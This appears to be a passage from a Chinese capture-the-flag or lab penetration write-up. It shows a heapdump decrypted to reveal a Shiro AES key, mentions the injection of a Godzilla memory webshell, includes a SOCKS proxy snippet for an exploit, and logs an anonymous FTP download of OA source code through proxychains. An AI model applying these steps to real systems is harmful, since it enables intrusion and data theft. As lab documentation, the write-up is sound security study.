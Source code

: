 解密一下heapdump，只保留了关键部分

```dockerfile
D:\CTFtools\工具包--天狐渗透V1.2\gui_scan\heapdump>java -jar JDumpSpider-1.1-SNAPSHOT-full.jar C:\Users\14301\Desktop\heapdump.heapdump
===========================================
CookieRememberMeManager(ShiroKey)
-------------
algMode = GCM, key = AZYyIgMYhG6/CzIJlvpR2g==, algName = AES

===========================================

```

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309022956-d7n76ty.png)​

找到了密钥和利用链，但是目前的用户是ops01

注入哥斯拉内存马

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309023327-xxr1bb8.png)​

设置代理进行连接

然后在/home/ops01下发现了文件

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309023651-gd3r8e5.png)​

由于不熟悉pwn，这一部分不做赘述，只说一个小点

在exp前面加上这一段设置为你做的代理即可

```dockerfile
socks.set_default_proxy(socks.SOCKS5, "127.0.0.1", 1080)
socket.socket = socks.socksocket
```

现在开始看新翔OA，依据之前的扫描结果21端口开放得到相关源码

```dockerfile
root@joker:/home/Work# proxychains ftp 172.28.23.26
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-172.28.23.26:21-<><>-OK
Connected to 172.28.23.26.
220 (vsFTPd 3.0.3)
Name (172.28.23.26:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> dir
227 Entering Passive Mode (172,28,23,26,21,118).
|S-chain|-<>-127.0.0.1:1080-<><>-172.28.23.26:5494-<><>-OK
150 Here comes the directory listing.
-rw-r--r--    1 0        0         7536672 Mar 23  2024 OASystem.zip
ftp> get OASystem.zip
local: OASystem.zip remote: OASystem.zip
227 Entering Passive Mode (172,28,23,26,179,32).
|S-chain|-<>-127.0.0.1:1080-<><>-172.28.23.26:45856-<><>-OK
150 Opening BINARY mode data connection for OASystem.zip (7536672 bytes).
226 Transfer complete.
500 Unknown command.
7536672 bytes received in 147.92 secs (49.7565 kB/s)
ftp> exit
```
